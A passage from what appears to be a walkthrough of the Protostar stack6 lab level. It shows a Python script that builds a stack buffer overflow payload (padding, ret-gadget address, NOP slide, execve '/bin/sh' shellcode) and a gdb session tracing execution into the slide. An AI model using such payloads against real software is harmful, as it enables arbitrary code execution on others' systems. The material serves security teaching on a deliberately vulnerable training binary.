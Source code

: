 ``` shell
                                            └── Second ret pops this value & jumps to our shellcode
```

This is my script, and the link to the shellcode that I use => [shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html).

``` python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret = struct.pack("I", 0x080484f9)
eip = struct.pack("I", 0xbffff7a0 + 0x30)
nopslide = "\x90"*100
int3 = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

print padding + ret + eip + nopslide + int3 + shellcode
```

Running the script in `gdb`:

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) disassemble getpath
Dump of assembler code for function getpath:
.....
0x080484f9 <getpath+117>:       ret
End of assembler dump.
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack6 < /tmp/exp
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT����������������������������������������������������������������������������������������������������������j
                                             X�Rh//shh/bin��1�̀
0x80484f9 <getpath+117>:        ret
0xbffff79c:     0x080484f9      0xbffff7d0      0x90909090      0x90909090
0xbffff7ac:     0x90909090      0x90909090      0x90909090      0x90909090

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) si
0x80484f9 <getpath+117>:        ret
0xbffff7a0:     0xbffff7d0      0x90909090      0x90909090      0x90909090
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      in stack6/stack6.c
(gdb)
Cannot access memory at address 0x54545458
(gdb)
0xbffff7d1:     nop
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7d1 in ?? ()
.....
(gdb) c
```